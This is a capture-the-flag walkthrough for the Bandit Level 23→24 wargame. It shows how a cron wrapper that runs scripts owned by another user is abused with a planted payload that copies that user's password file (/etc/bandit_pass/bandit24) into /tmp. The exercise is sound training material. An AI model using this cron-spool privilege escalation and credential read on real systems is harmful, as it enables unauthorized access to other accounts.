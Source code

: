 # Level 23 → Level 24

---

## Steps Taken

### 1. Understanding the Task

A program is running automatically from cron. We must inspect `/etc/cron.d` to see what command is executed, follow that to the wrapper script, and supply a shell script the wrapper will run so we can obtain the next level’s password. The wrapper executes scripts found in `/var/spool/<user>/foo` that are owned by `bandit23`, then deletes them.

---

### 2. Checking `/etc/cron.d` for the cron job

Commands run:

```bash
cd /etc/cron.d
ls
cat cronjob_bandit24
```

Observed contents:

```text
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

`* * * * *` means the wrapper runs every minute as `bandit24`.

---

### 3. Reading the wrapper script (`/usr/bin/cronjob_bandit24.sh`)

Command run:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

Wrapper contents:

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

This shows the wrapper will `cd` into `/var/spool/bandit24/foo`, execute files owned by `bandit23`, then remove them.

---

### 4. Creating the payload script and retrieving the password

Commands run (user actions):

```bash
mktemp -d
cd /tmp/tmp.IOXdFsu199
nano getpassword.sh      # (nano shows local-history warning but allows saving)
chmod +x getpassword.sh  # make the script executable so the wrapper can run it
ls -la
chmod +w .               # add write permission to the current directory (for testing)
chmod 777 .              # set full perms on the temp dir (used here to avoid permission blockers)
cp getpassword.sh /var/spool/bandit24/foo
```

Payload content placed into `getpassword.sh` via `nano`:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/plspassword.txt
```

Then the wrapper executed the script (it runs every minute and deletes executed scripts). After waiting for a minute:

```bash
cat /tmp/plspassword.txt
```

From this, I was able to determine the password for the next level.
